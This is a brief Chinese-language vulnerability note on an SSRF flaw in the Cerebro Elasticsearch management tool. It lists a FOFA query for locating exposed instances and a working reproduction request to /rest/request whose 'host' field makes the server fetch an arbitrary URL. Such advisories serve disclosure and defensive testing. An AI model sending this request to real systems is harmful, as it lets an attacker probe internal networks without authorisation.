

# Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

```
Cerebro
```

## FOFA

```
app="Cerebro"
```

## 漏洞复现

主页面



发送请求包

```
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

